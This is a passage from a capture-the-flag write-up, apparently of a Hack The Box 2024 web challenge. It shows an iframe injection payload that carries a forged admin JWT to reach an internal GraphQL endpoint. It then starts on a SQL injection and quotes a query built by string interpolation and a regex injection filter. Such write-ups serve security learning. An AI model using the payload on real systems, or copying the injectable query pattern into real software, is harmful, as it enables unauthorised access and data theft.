 This makes our final query look like:

```json
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYxOTM0ODZ9.CwFQM5tcCFDeRt45Sa7ExJkndNfSp_kF9QhvyXu151Y&query=%7B%0A%20%20getDataByName(name%3A%20%22john%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='1000' width='1000'></iframe>"
}
```

![image](../images/htb-ctf-2024/graphql-query.png)
*Successful GraphQL query*

Success! We're now able to query `/graphql` as an internal user from `127.0.0.1` using our admin JWT.

## SQL Injection

Since `name` is being passed into the GraphQL schema before being insecurely substituted into the SQL query, we can likely perform SQL injection on the database. Let's have another look at the query in `app/schemas/schema.js`:

```js  
...
const { detectSqli } = require("../utils/security")
...
        if (detectSqli(args.name)) {
          return generateError(400, "Username must only contain letters, numbers, and spaces.")
        }
        try {
            data = await connection.query(`SELECT * FROM users WHERE name like '%${args.name}%'`).then(rows => rows[0]);
...
```
{: file='app/schemas/schema.js'}

We can see that there's been attempt to stop SQL injection via `detectSqli()`. Let's check the function out in `app/utils/security.js`:

```js
function detectSqli (query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]/
    return pattern.test(query)
}
```
{: file='app/utils/security.js'}
